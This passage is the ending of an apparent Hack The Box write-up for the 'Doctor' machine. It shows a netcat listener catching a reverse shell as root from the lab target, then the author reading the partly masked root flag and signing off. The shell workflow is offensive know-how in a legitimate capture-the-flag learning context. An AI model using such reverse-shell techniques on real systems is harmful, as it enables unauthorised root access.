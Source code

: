 
Getting a callback on `nc` listener:

```shell
cfx:  ~/Documents/htb/doctor
→ nc -lvnp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.209.
Ncat: Connection from 10.10.10.209:42392.
bash: cannot set terminal process group (1143): Inappropriate ioctl for device
bash: no job control in this shell
root@doctor:/# id
uid=0(root) gid=0(root) groups=0(root)
root@doctor:/# whoami
root
```

Grabbing `root.txt`

```shell
root@doctor:/root# cat root.txt
5df27170d99d58b*****************

```

And we pwned the Box !

Thanks for reading, Suggestions & Feedback are appreciated !
